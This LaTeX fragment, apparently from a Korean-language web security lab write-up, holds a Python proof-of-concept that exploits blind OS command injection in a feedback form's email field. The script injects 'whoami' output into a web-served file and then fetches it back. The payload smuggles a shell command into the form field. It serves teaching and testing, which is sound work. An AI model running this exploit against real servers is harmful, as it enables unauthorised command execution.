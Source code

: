 \documentclass{article}
\begin{document}
\begin{description}
\begin{enumerate}
  \end{enumerate}

  \newpage
  \item[\textbf{Python 풀이}:] \leavevmode\par
    다음 파이썬 스크립트는 피드백 폼의 \texttt{email} 필드에 명령어 삽입 페이로드를 전송하여, whoami 명령을 실행하고 그 출력을 \texttt{/var/www/images/output.txt} 파일로 리다이렉트하는 PoC입니다. 
    이후, 해당 파일을 이미지 URL을 통해 불러와 명령 실행 결과를 확인합니다. 

    \begin{lstlisting}[label={lst:modified-request},caption={Python script for problem 3}, showspaces=false,showstringspaces=false]
    import requests
    import sys
    import urllib3
    from bs4 import BeautifulSoup

    urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)

    proxies = { 'http': 'http://127.0.0.1:8080', 'https': 'http://127.0.0.1:8080' }

    # Get the CSRF in the /feedback page before exploiting the form vulnerability
    def get_csrf(s, url):
        feedback_path = "/feedback"
        r = s.get(url + feedback_path, verify=False)
        soup = BeautifulSoup(r.text, 'html.parser')
        csrf = soup.find('input')['value']
        return csrf

    def check_command_injection(s, url):
        submit_feedback_path = "/feedback/submit"
        command_injection = "test@test.com; whoami > /var/www/images/output-py.txt #"
        csrf_token = get_csrf(s, url)   # Retrieve CSRF in order to send a valid request
        data = { 'csrf': csrf_token, 'name': "test", 'email': command_injection,
                'subject': "testing", 'message': "This is a test"}
        res = s.post(url + submit_feedback_path, data=data, verify=False, proxies=proxies)
        print("(+) Verifying if command injection exploit worked...")

        # Verify command injection
        file_path = "/image?filename=output-py.txt"
        res = s.get(url + file_path, verify=False, proxies=proxies)
        if (res.status_code == 200): # All good
            print("(+) Command injection succesful!")
            print(f"(+) The following is the content of the command: {res.text}")
        else:
            print("(-) Command injection was not succesful.")

    def main():
        if len(sys.argv) != 2:
            print(f"(-) Usage: {sys.argv[0]} <url>")
            print(f"(-) Example: {sys.argv[0]} www.example.com")
            sys.exit(1)

        url = sys.argv[1]
        print("(+) Exploiting blind command injection in email field...")

        s = requests.Session()
        check_command_injection(s, url)


    if __name__ == '__main__':
        main()
    \end{lstlisting}


\end{description}
\end{document}
